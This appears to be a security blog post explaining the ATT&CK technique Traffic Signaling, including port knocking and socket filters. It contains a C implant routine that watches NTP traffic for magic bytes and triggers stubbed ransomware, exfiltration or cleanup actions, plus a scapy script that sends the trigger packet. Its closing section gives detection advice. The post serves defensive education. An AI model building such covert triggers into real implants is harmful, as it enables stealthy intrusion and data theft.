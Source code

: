 ```yaml
---
title: "What is Traffic Signaling?"
tags: "ATT&CK"
article_header:
  type: cover
  image:
    src: /images/mitreattack.png
cover: /images/trafficsignaling/cover.jpg
---
```


* Tactics: Defense Evasion, Persistence, Command & Control
* Purpose: To avoid detection when sending instructions to implants on compromised systems.

## Situation

An adversary compromises a system in a target environment and is able to execute a malicious implant. Rather than immediately beaconing out to command and control (C2) infrastructure, the adversary wants to minimize suspicious traffic to avoid detection by network monitoring defenses. One way for a backdoor to stay idle until triggered on demand is using Traffic Signaling, which involves sending a specially crafted or a combination of packets to the compromised device. 

## How it works

Packets may be sent from another compromised system, like an [internal proxy](https://attack.mitre.org/techniques/T1090/001/), or from attacker infrastructure if the implanted device is externally facing. The running process monitors inbound traffic for signals. The traffic signals may instruct the malware to do something that network defenses look for, like initiatiating a shell with C2. 

One way to monitor for incoming connections is by inspecting Netstat output periodically, but spawning a child process can be suspicious. This also limits the implant to only fully established connections without the ability to inspect the frame headers or data. If the malware has administrative priviliges, it can monitor all inbound traffic on the system using pcap libraries like `npcap` on Windows or `libpcap` on Linux or create raw sockets. This includes ports in use by other programs, allowing the signals to blend in with standard traffic like SSH, HTTP, or SMB.

### Port Knocking

One method adversaries have used to signal to the listening malware is Port Knocking, which involves sending a predefined sequence of packets to different ports on the compromised system. In the example below, a program uses `libpcap` to monitor incoming packets on the local network interface. If ten SYN packets arrive at increasing fibonacci port numbers from the the same source IP address in the span of 60 seconds, a "reverse shell" is spawned.

{% include image.html url="/images/trafficsignaling/nmap_portknocking.png" description="Two Nmap scans are initiated from another system - the first with a random Nmap scan order (default), and the second with 10 sequential fibonacci port numbers (using the -r flag)" percentage="80" %}
{% include image.html url="/images/trafficsignaling/portknocking.png" description="The implant is triggered when it detects the correct order" percentage="80" %}


### Socket Filters

Another way to send signals is by filtering for crafted packets with unusual characteristics or "magic bytes" embedded in the data. The payload may carry different signals, allowing additional control. In the following scenario, a program uses a raw socket to filter for inbound UDP packets on port 123 (NTP). When a "password" byte chunk is detected, the following ten bytes will signal which action the program should take.

~~~
// UDP port 123 packet received, checking data for signals
void check_byte_pattern(const char* udpData, int length) {
    const unsigned char passwordChunk[] = { 0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3 };
    const int passLength = sizeof(passwordChunk);

    const unsigned char signal1[] = { 0x7B, 0x8C, 0x2D, 0x5F, 0xE6, 0x91, 0x4A, 0x0D, 0xF3, 0xC8 };
    const unsigned char signal2[] = { 0x1E, 0xA7, 0x9B, 0x05, 0xD4, 0x8F, 0x36, 0xC2, 0x7D, 0xE9 };
    const unsigned char signal3[] = { 0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E };

    // Search every 10 byte chunk in the UDP data
    for (int i = 0; i <= length - passLength; i++) {
        // If the 10 byte chunk matches the passwordChunk
        if (memcmp(udpData + i, passwordChunk, passLength) == 0) {
            // If there are at least 10 more bytes after the target pattern
            if (i + passLength + 10 <= length) {
                printf("  Signal detected: ");
                print_hex(passwordChunk, passLength);

                printf("  Next ten bytes: ");
                print_hex((const unsigned char*)(udpData + i + passLength), 10);

                if (memcmp(udpData + i + passLength, signal1, 10) == 0) {
                    clean_presence();
                }
                else if (memcmp(udpData + i + passLength, signal2, 10) == 0) {
                    deploy_ransomware();
                }
                else if (memcmp(udpData + i + passLength, signal3, 10) == 0) {
                    exfiltrate_data();
                }
            }
            break;
        }
    }
}
~~~
{: .language-c}

The following Python script sends a UDP packet with the byte combo needed to trigger the `exfiltrate_data` method.

~~~
from scapy.all import IP, UDP, Raw, send
import random

target_ip = "192.168.56.1"
target_port = 123

payload = bytes([
    0x3A, 0xF1, 0xD2, 0x84, 0xB7, 0xC9, 0x5E, 0x6F, 0x12, 0xA3,
    0x52, 0xF8, 0x3C, 0x6B, 0x94, 0x0A, 0xE1, 0xD7, 0x2F, 0x8E
])

prefix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
suffix = bytes([random.randint(0, 255) for _ in range(random.randint(10, 20))])
final_payload = prefix + payload + suffix

packet = IP(dst=target_ip) / UDP(dport=target_port) / Raw(load=final_payload)
send(packet, verbose=1)
~~~
{: .language-python}

{% include image.html url="/images/trafficsignaling/socket_filter.png" description="Socket filter received signal to exfiltrate data" percentage="80" %}

### Detective Measures

Monitor network traffic for abnormal connection combinations that do not follow standard flow patterns. Behavioral analytics solutions and stateful firewalls can perform some of this analysis. Create detections around malformed packets that do not conform to their destination port's application protocol structure, or packets that originate from the wrong source port (such as NTP datagrams that are not both to and from port 123). This may assist in finding covert signals attempting to blend in.

Alert on untrusted programs that create raw sockets (`AF_INET`,`SOCK_RAW`) or use packet filter libraries. On Windows, detect NDIS (Network Driver Interface Specification) driver installations using the `Get-NetAdapterBinding` PowerShell Cmdlet and monitor for `PF_PACKET` sockets on Linux.

## References

- [MITRE ATT&CK - Traffic Signaling](https://attack.mitre.org/techniques/T1205/)
- [MITRE ATT&CK - Port Knocking](https://attack.mitre.org/techniques/T1205/001/)
- [MITRE ATT&CK - Socket Filters](https://attack.mitre.org/techniques/T1205/002/)